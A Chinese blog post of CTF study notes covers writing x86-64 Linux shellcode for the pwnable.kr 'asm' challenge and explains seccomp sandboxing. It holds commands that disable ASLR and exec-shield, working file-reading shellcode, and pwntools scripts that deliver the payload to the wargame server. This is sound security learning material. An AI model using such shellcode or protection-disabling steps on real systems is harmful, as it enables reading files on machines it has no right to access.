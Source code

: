 ```yaml
---
layout: post
date:   2017-07-11 15:14:54
categories: 学习笔记
tags:   linux shellcode pwnable.kr heap
---
```

# 壹、 linux下基本shellcode的编写 *(pwnable，asm)*

刷到了pwnable.kr中的asm题，开始系统学习shellcode。问题代码专注写利用即可，抽象如下：

	char code[] = "bytecode will go here!";
	int main(int argc, char **argv)
	{
		int (*func)();
		func = (int (*)()) code;
		(int)(*func)();
	}

关闭保护的方法：<br>
echo 0 > /proc/sys/kernel/exec-shield   #turn it off<br>
echo 0 > /proc/sys/kernel/randomize_va_space #turn it off<br>

这里我打算用两个方法写shellcode.
## 1 基础的“写汇编代码”→“汇编”→“提取字节码” 方法。

### Q1: 汇编与生成方法
- 目前我使用如下命令来生成和提取：
```
	$ nasm -f elf64 exit.asm
	$ ld -o exiter exit.o
	$ objdump -d exiter
```
### Q1: 字符串传入?
这里有一个困扰了我的问题，就是字符串怎么传入的问题，这里方法很巧妙，就是把字符串放在末尾，前面使用call的方式，这样字符串的地址就出现在了栈上，就可以pop到想要的寄存器中去了。

### Q2: syscall 和 int 80 不等价？
根据[文档](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)，系统调用应该就是int 0x80的形式，但是我在虚拟机中调试发现int 80 并不能实现syscall的功能，字节码也不一样。
果然在[stackoverflow](https://stackoverflow.com/questions/12806584/what-is-better-int-0x80-or-syscall)上有了回答：

- `syscall` is default way of entering kernel mode on x86-64. This instruction is not available in 32 bit modes of operation on Intel processors.
- `sysenter` is an instruction most frequently used to invoke system calls in 32 bit modes of operation. It is similar to syscall, a bit more difficult to use though, but that is kernel's concern.
- `int 0x80` is a legacy way to invoke a system call and should be avoided.

所以，64位下还是用syscall为好，老旧的kernel再使用int 0x80。

### 题解：
流程是先open，然后read到栈上，再write到标准输出

- shellcode.asm:<br>

```
global _start:
_start:
	jmp short endder;
starter:
	mov rax, 2; sys_open
	pop rdi;
	mov rsi, 0;
	syscall;

	mov rsi, rsp;
	mov rdi, rax;
	xor rax,rax; sys_read
	mov rdx, 100;
	syscall;

	mov rax, 1; sys_write
	mov rdi, 1;
	syscall;

	mov rax, 60;
	syscall;

endder:
	call starter;
	db 'this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong'
```

- solve.py:

```
import pwn

payload = '\xeb0\xb8\x02\x00\x00\x00_\xbe\x00\x00\x00\x00\x0f\x05H\x89\xe6H\x89\xc7H1\xc0\xbad\x00\x00\x00\x0f\x05\xb8\x01\x00\x00\x00\xbf\x01\x00\x00\x00\x0f\x05\xb8<\x00\x00\x00\x0f\x05\xe8\xcb\xff\xff\xffthis_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong\x00'
con = pwn.ssh(user='asm', password = 'guest', host = 'pwnable.kr', port = 2222)
tunnel = con.remote('0', 9026)
tunnel.send(payload)
tunnel.interactive()
```
flag: Mak1ng_shelLcodE_i5_veRy_eaSy, [参考链接](https://etenal.me/archives/972#C22)

## 2 使用pwntools工具（pwn.shelldrift）

首先要设置目标环境，学习到两个姿势：

- *方法一*、使用pwn.context(arch="amd64", os = 'linux')设定好目标环境，还可以类似pwn.context.log_level='debug'这样设置目标环境<br>
  然后再使用pwn.shellcraft.*中的各种例如syscall，open，read等方法。
- *方法二*、直接使用pwnlib.shellcraft.amd64.linux.*中的各种例如syscall，open，read等方法
- 以上方法都是生成asm源码，还要用pwn.asm生成对应字节码。<br>
<br>_pwnlib和from pwn import *有点微妙的关系目前还没弄懂_

shellcraft.*中有各种基本的方法，如mov等的操作，写起来和原始汇编差别不大，注意寄存器要写成带引号的字符串形式。同时也有`syscall(syscall=None, arg0=None, arg1=None, arg2=None, arg3=None, arg4=None, arg5=None)`等集成比较好的方法。我们这里用的open、read、write也有集成了。可以参考[pwntools官方文档](https://docs.pwntools.com/en/stable/shellcraft/amd64.html#module-pwnlib.shellcraft.amd64)。<br>

[这里](http://blog.csdn.net/qq_33528164/article/details/71023772)给的题解很清晰明了，连如何放置字符串都不需要考虑（pushstr只有方法一中有）。但是我好奇字符串位置，就把shellcode拿出来看了一下：<br>
<img src="{{ site.baseurl }}/images/{5$]7M213M7TMIQAG}H`9@N.png"><br>
看来这篇博客错了，这里生成的是原始的.asm源码文件，[这里](http://veritas501.space/2017/04/30/pwnable.kr_writeup/)的用法是正确的，还要用pwn.asm生成对应的字节码。不过这里的push字符串的方法可以参考，也是一种方法，拆开成碎片逐个push到栈上。经过测试，我下面这个payload也能够生效的。
```
from pwn import *
context(os='linux', arch='amd64')
asmcode = ''
asmcode += shellcraft.pushstr("this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong")
asmcode += shellcraft.open('rsp',0,0)
asmcode += shellcraft.read('rax','rsp',100)
asmcode += shellcraft.write(1,'rsp',100)
shellcode = asm(asmcode)
```



---
# 贰、 Linux沙箱: seccomp sandbox  *(pwnable, asm)*

Seccomp(secure computing)是Linux kernel （自从2.6.23版本之后）所支持的一种简洁的sandboxing机制。它能使一个进程进入到一种“安全”运行模式，该模式下的进程只能调用4种系统调用（system calls），即read(), write(), exit()和sigreturn()，否则进程便会被终止。

- seccomp_rule_add(scmp_filter_ctx ctx, uint32_t action, int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_array(scmp_filter_ctx ctx,
                                  uint32_t action, int syscall,
                                  unsigned int arg_cnt,
- seccomp_rule_add_exact(scmp_filter_ctx ctx, uint32_t action,
                                  int syscall, unsigned int arg_cnt, ...);
- seccomp_rule_add_exact_array(scmp_filter_ctx ctx,
                                        uint32_t action, int syscall,
                                        unsigned int arg_cnt,
                                        const struct scmp_arg_cmp *arg_array);

以上等方法会添加新的过滤器到seccomp过滤器中。这个方法会因为处理器架构的不同而在细节上有一些差异。新添加的filter rule需要通过[seccomp_load(3)](http://man7.org/linux/man-pages/man3/seccomp_load.3.html)来生效。[参见linux man手册](http://man7.org/linux/man-pages/man3/seccomp_rule_add.3.html)

如下面是pwnable.kr中asm的题目代码，可以作为一个范例

	#include <seccomp.h>
	scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
	...
	seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
	...
	seccomp_load(ctx); //enable
	seccomp_release(ctx);

表明允许open这一系统调用的进行。

注，gcc编译时应该使用 -lseccomp参数
